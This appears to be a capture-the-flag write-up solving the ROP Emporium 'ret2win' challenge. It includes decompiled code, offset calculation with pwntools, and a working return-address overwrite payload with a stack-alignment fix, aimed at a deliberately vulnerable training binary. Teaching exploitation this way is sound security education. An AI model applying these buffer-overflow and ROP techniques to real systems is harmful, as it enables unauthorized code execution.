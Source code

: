 ```yaml
---
title: 'ROP emporium - ret2win'
date: 2024-09-26T18:42:47+02:00
draft: false
---
```


This is the [first challenge of ROP emporium](https://ropemporium.com/challenge/ret2win.html).
It focuses on exploiting a classic buffer overflow vulnerability to hijack the program's execution flow and return to a specific function.

## Analyzing the binary
First, we inspect the binary using `nm` to look for useful symbols. Among them, the ones of interest are:
```c
0000000000400697 T main
00000000004006e8 t pwnme
0000000000400756 t ret2win
```

From the names, it’s likely that the ret2win function is the one that will give us the flag.

To better understand the program's structure, let's decompile it using [Ghidra](https://github.com/NationalSecurityAgency/ghidra).

The resulting code looks like this:
```c

int main(void)
{
  setvbuf(stdout,NULL,2,0);
  puts("ret2win by ROP Emporium");
  puts("x86_64\n");
  pwnme();
  puts("\nExiting");
  return 0;
}

void pwnme(void)
{
  undefined buffer [32];
  [...]
  read(0,buffer,56);  // <-- buffer overflow :)
  puts("Thank you!");
  return;
}

void ret2win(void)
{
  puts("Well done! Here\'s your flag:");
  system("/bin/cat flag.txt");
  return;
}

```

We can see that the `ret2win` function is our target as we have supposed before.

The `pwnme` function reads 56 bytes into a 32-byte buffer, creating a classic buffer overflow vulnerability. This allows us to overwrite the return address and potentially redirect execution to the `ret2win` function.

## Understanding the stack layout

Right before a function is called, the current value of the Program Counter (i.e. the address of the next instruction to be executed) is saved on the stack. This saved return address allows the program to return to the correct location after the called function reaches the `ret` instruction. When the called function reaches the end, it pops the saved return address from the stack and moves it into the Program Counter, ensuring that execution continues from where the function was initially called.

By writing an address in the return address, we can redirect the execution of the program in that address.

The goal here is to call the `ret2win` function. We can take advantage of the buffer overflow to overwrite the return address and control the execution of the program redirecting it to `ret2win`.

![](/stack_based_buffer_overflow.svg)

From the stack layout shown in the figure, we can see that the Return Address is right after the buffer and the saved `RBP` register.

Disassembling the function with `objdump`, was can see how many bytes we have to write before reaching the return address.

```sh
objdump --disassemble=pwnme ret2win

00000000004006e8 <pwnme>:
  4006e8:	55                   	push   %rbp
  4006e9:	48 89 e5             	mov    %rsp,%rbp
  4006ec:	48 83 ec 20          	sub    $0x20,%rsp
  4006f0:	48 8d 45 e0          	lea    -0x20(%rbp),%rax
  4006f4:	ba 20 00 00 00       	mov    $0x20,%edx
  4006f9:	be 00 00 00 00       	mov    $0x0,%esi
  4006fe:	48 89 c7             	mov    %rax,%rdi
  400701:	e8 7a fe ff ff       	call   400580 <memset@plt>

```
As you can see, it pushes `RBP` (8 bytes) and then 32 bytes (0x20) for our buffer. This means we need to overflow 40 bytes to overwrite the return address.

To ensure our offset calculation is correct, I used a [handy script](https://gist.githubusercontent.com/zachriggle/e4d591db7ceaafbe8ea32b461e239320/raw/367de5ca57bf1c9aa844ecf741b74dacb15a93e4/win.py) from this gist with the help of pwntools:

```python3
from pwn import *

# Set up pwntools to work with this binary
elf = context.binary = ELF('ret2win')

# Figure out how big of an overflow we need by crashing the
# process once.
io = process(elf.path)

# We will send a 'cyclic' pattern which overwrites the return
# address on the stack.  The value 128 is longer than the buffer.
io.sendline(cyclic(128))

# Wait for the process to crash
io.wait()

# Open up the corefile
core = io.corefile

# Print out the address of RSP at the time of crashing
stack = core.rsp
info("%#x stack", stack)

# Read four bytes from RSP, which will be some of our cyclic data.
#
# With this snippet of the pattern, we know the exact offset from
# the beginning of our controlled data to the return address.
pattern = core.read(stack, 4)
info("%r pattern", pattern)

offset = cyclic_find(pattern)
info("%d offset", offset)

```
Alternatively, you can run a debugger and check manually the offset of the return address.

## Crafting the exploit

In order to change the execution flow and redirect it to `ret2win`, we need to overflow the buffer by writing 40 bytes (it doesn't matter what they are), then the next 8 bytes will go in the return address used to return after the function. Here we can write the address of the ret2win function and the game should be done!

Retrieving the address of `ret2win` is pretty straighforward:
```sh
nm ret2win| grep ret2win
> 0000000000400756 t ret2win
```

So now we have everything we need to build our exploit:

```py
payload = b'A' * 40
payload += p64(elf.symbols.ret2win)

io = process(elf.path)
gdb.attach(io)
io.sendline(payload)
io.interactive()
```

I use the [ELF](https://docs.pwntools.com/en/stable/elf/elf.html) utility from pwntools to retrieve the address of the function `ret2win` to avoid incurring any errors. The [`p64`](https://docs.pwntools.com/en/stable/util/packing.html#pwnlib.util.packing.p64) function is used to convert the address from int to a byte string that we can write into the stdin of the process.

Run the exploit aaaand.. Ouuch.. Segmentation fault 🥲
```
Program received signal SIGSEGV, Segmentation fault.
0x00007a257c45842b in do_system (line=0x400943 "/bin/cat flag.txt") at ../sysdeps/posix/system.c:148
```
```
pwndbg> x/i 0x00007ec6b185842b
=> 0x7ec6b185842b <do_system+363>:	movaps XMMWORD PTR [rsp+0x50],xmm0
```
As written in the [Beginners' guide](https://ropemporium.com/guide.html#Common%20pitfalls), the problem was related to the stack being not aligned, I just had to pad the rop chain by adding another `ret` gadget before returning to the target function.

you can get it by running `ROPgadget --binary=ret2win | grep ": ret"` or alternatively you can use the [rop](https://docs.pwntools.com/en/stable/rop/rop.html) pwntools utility:

```python3
payload = b'A' * offset  # <--  computed before
payload += p64(rop.ret.address)
payload += p64(elf.symbols.ret2win)
```
![](/ret2win_chall.svg)

And finally the `ret2win` function that we just called prints our flag!
